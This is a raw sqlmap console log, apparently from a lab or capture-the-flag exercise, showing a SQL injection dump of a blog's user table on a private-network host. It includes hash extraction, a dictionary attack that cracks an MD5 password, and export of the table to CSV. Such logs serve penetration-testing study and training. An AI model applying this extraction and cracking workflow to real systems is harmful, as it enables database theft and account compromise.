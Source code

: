 ```
[10:35:56] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: Apache 2.4.10
back-end DBMS: MySQL 5.0.12
[10:35:56] [INFO] fetching columns for table 'blogphp_users' in database 'blog'
[10:35:56] [INFO] fetching entries for table 'blogphp_users' in database 'blog'
[10:35:56] [INFO] analyzing table dump for possible password hashes
[10:35:56] [INFO] recognized possible password hashes in column 'password'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] y
[10:35:58] [INFO] writing hashes to a temporary file '/tmp/sqlmaphyBbYF4166/sqlmaphashes-GEGvTi.txt' 
do you want to crack them via a dictionary-based attack? [Y/n/q] y
[10:36:00] [INFO] using hash method 'md5_generic_passwd'
what dictionary do you want to use?
[1] default dictionary file '/usr/share/sqlmap/txt/wordlist.zip' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
> 
[10:36:02] [INFO] using default dictionary
do you want to use common password suffixes? (slow!) [y/N] 
[10:36:05] [INFO] starting dictionary-based cracking (md5_generic_passwd)
[10:36:05] [WARNING] multiprocessing hash cracking is currently not supported on this platform
[10:36:18] [INFO] cracked password 'password' for user 'knightmare'                                            
[10:36:18] [INFO] postprocessing table dump                                                                    
Database: blog
Table: blogphp_users
[1 entry]
+----+---------+---------+---------+---------+---------+---------+---------+---------+---------+--------------------+------------+------------+---------+---------+------------+---------------------------------------------+
| id | aim     | msn     | url     | icq     | name    | bday    | mlist   | yahoo   | gtalk   | email              | logged     | date       | avatar  | level   | username   | password                                    |
+----+---------+---------+---------+---------+---------+---------+---------+---------+---------+--------------------+------------+------------+---------+---------+------------+---------------------------------------------+
| 1  | <blank> | <blank> | <blank> | <blank> | <blank> | <blank> | <blank> | <blank> | <blank> | bill@microsoft.com | 1466846118 | 1466846118 | <blank> | Member  | knightmare | 5f4dcc3b5aa765d61d8327deb882cf99 (password) |
+----+---------+---------+---------+---------+---------+---------+---------+---------+---------+--------------------+------------+------------+---------+---------+------------+---------------------------------------------+

[10:36:18] [INFO] table 'blog.blogphp_users' dumped to CSV file '/root/.sqlmap/output/192.168.110.151/dump/blog/blogphp_users.csv'
[10:36:18] [INFO] fetched data logged to text files under '/root/.sqlmap/output/192.168.110.151'
[*] shutting down at 10:36:18
```

